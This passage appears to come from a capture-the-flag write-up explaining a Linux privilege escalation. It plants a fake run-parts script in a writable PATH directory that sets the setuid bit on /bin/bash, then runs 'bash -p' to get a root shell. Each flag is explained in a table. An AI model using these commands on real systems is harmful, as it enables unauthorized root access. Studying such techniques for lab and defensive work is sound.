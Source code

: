 | Ls param | Description |
| ----- | ----- |
| -l | Long listing format |
| -d | List directores themselves, not their content |
####
Like we are in the **staff** group, we have write permissions here, so we will try make a **path hijacking**:
####
```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts

Final representation ->
echo -e '
    #!/bin/bash
    chmod u+s /bin/bash
' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```
####
| Param | Description |
| ----- | ----- |
| -e | Interpret backslash escapes |
| -x | Execute the script |
| > | Save into or send to |
| u+s | Set the setuid bit permission |
| +x | Set execute permission |
####
How the script **run-parts** is execute at the moment to authenticate using *SSH* we need to kill the current session and connect again. After the execution of the script, we will have the **bash** with **setuid** bit set, so we will be able to run the bash as root:
####
```bash
/bin/bash -p
```
####
| Param | Description |
| ----- | ----- |
| -p | Run the shell with the **setuid** bit set |
####
